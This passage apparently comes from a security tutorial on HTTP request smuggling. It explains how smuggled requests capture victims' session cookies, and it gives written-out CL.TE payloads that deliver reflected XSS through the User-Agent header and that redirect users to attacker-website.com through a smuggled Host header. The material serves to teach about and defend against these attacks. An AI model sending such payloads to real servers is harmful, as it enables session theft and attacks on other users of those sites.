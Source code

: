 Result → Victim’s next request (`Cookie: session=...`) is appended into attacker’s comment field → attacker steals session tokens.

⚠️ Limitation: Data capture often stops at first **parameter delimiter (&)** in victim’s request.

---

## 5. Deliver Reflected XSS

### 💡 Why It Works

- If app is vulnerable to **reflected XSS** in headers (e.g., `User-Agent`), attackers can inject payloads that will be reflected back **into the next user’s response**.
    
- Unlike normal XSS, **no user interaction required**.
    

### 🧪 Payload Example

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```

Result → Next user receives reflected XSS payload.

---

## 6. Turn Redirects into Open Redirects

### 💡 Why It Works

- Some apps auto-redirect based on `Host` header.
    
- Smuggled request changes `Host`, producing **off-site redirect**.
    

### 🧪 Payload Example

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```
